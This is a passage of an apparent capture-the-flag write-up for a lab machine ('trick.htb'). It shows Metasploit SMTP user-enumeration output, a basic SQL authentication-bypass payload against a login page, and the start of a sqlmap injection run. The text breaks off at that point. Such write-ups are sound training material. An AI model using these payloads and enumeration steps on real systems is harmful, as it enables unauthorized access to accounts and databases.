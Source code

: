                                                                                                                   
===============================================================
2022/06/21 15:03:17 Finished
===============================================================
```
Nothing particular interesting  yet.


### SMTP User Enumeration
SMTP enum is very slow and - I decided to not bother with that stuff for now. ```MSF Auxilary modules``` verified just some standard UNIX Users.

```
msf6 auxiliary(scanner/smtp/smtp_enum) > run

[*] 10.129.38.208:25      - 10.129.38.208:25 Banner: 220 debian.localdomain ESMTP Postfix (Debian/GNU)
[+] 10.129.38.208:25      - 10.129.38.208:25 Users found: , _apt, avahi, backup, bin, colord, daemon, dnsmasq, games, geoclue, gnats, hplip, irc, list, lp, mail, man, messagebus, mysql, news, nobody, postfix, postmaster, proxy, pulse, rtkit, saned, speech-dispatcher, sshd, sync, sys, systemd-coredump, systemd-network, systemd-resolve, systemd-timesync, tss, usbmux, uucp, www-data                                                                                  
[*] 10.129.38.208:25      - Scanned 1 of 1 hosts (100% complete)                                                    
[*] Auxiliary module execution completed   
```

## Foothold

### Login bypass 
Eventually I found a ```SQL login bypass``` at
http://preprod-payroll.trick.htb/login.php
Just a very basic SQL Auth bypass payload: ```'or 1=1 -- —```

The panel revealed the service running is ```Recruitment Management System``` and ```searchsploit``` confirmed the Auth bypass vulnerability  and also indicated a SQLi we might can exploit:
https://www.exploit-db.com/exploits/50404

```
└─$ sqlmap -u "http://preprod-payroll.trick.htb/?page=view_vacancy&id=1"  --level=3 --risk=2 --banner --dbms=sqlite --tables   
        ___
       __H__                                                                                                        
 ___ ___[.]_____ ___ ___  {1.6.6#stable}                                                                            
|_ -| . [(]     | .'| . |                                                                                           
|___|_  [,]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:05:57 /2022-06-21/
